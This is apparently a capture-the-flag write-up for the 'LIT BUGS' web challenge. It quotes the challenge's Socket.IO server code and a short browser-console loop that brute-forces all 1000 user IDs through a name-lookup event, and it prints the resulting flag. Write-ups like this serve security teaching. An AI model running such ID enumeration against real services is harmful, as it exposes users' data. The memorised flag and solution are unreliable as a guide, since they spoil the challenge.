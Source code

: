 # web/LIT BUGS (92 solves / 129 points)  
## Description  
Last year’s LIT platform may or may not have had some security
vulnerabilities. We have created a simplified version of last year’s platform
called LIT BUGS (Lexington Informatics Tournament’s Big Unsafe Grading
System). The flag is the team name of the only registered user. Visit LIT BUGS
[here](http://websites.litctf.live:8000/)  
Downloads:  
[LIT
Bugs.zip](https://drive.google.com/uc?export=download&id=1KH4xaRabJVIFFfmNKxep5ZLFH24muqHy)

## Solution:  
When I clicked the link the description I was presented with a website that
looks a lot like the current ctf website. This website has only a home page, a
register page, a login page, and a contest page.  
After analyzing the source code given, I found that the website uses
websockets for the register and login functions. In addition to this, there is
also an endpoint that returns a teams name when given their ID.

Relevant code:

	io.on('connection',(socket) => {  
		socket.on('login',(tn,pwd) => {  
			if(accounts[tn] == undefined || accounts[tn]["password"] != md5(pwd)) {  
				socket.emit("loginRes",false,-3);  
				return;  
			}  
			socket.emit("loginRes",true,accounts[tn]["rand_id"]);  
			return;  
		});

		socket.on('reqName',(rand_id) => {  
			name = id2Name[parseInt(rand_id)];  
			socket.emit("reqNameRes",name);  
		});

		socket.on('register',(tn,pwd) => {  
			if(accounts[tn] != undefined) {  
				socket.emit("regRes",false,-1);  
				return;  
			}  
			if(Object.keys(accounts).length >= 500) {  
				socket.emit("regRes",false,-2);  
				return;  
			}  
			var rand_id = Math.floor(Math.random() * 1000);  
			while(id2Name[rand_id] != undefined) {  
				rand_id = Math.floor(Math.random() * 1000);  
			}  
			accounts[tn] = {  
				"password": md5(pwd),  
				"rand_id": rand_id  
			};  
			id2Name[rand_id] = tn;  
			socket.emit("regRes",true,rand_id);  
		});  
	});

As you can see from this code, ID's are generated by taking a random number
from 1 to 1000. With only 1000 possible ID's, this is well within bruteforcing
range. The endpoint that allows name lookup based on ID's should be vulnerable
to a bruteforce attack, as the flag is the name of a team. I made a short JS
script to run in my browser's JS console which bruteforced all 1000 ID's:  
socket.on("reqNameRes",(name)=>{  
	console.log(name)  
});  
for(var i = 0;i<1000;i++){  
	socket.emit("reqName",i)  
}  
This worked, and after looking through the results, I found the following
flag:

## Flag  
flag{if_y0u_d1d_not_brut3force_ids_plea5e_c0ntact_codetiger}

Original writeup
(https://github.com/3TH3R3AL/CTFwriteups/blob/main/LIT%20BUGS.md).
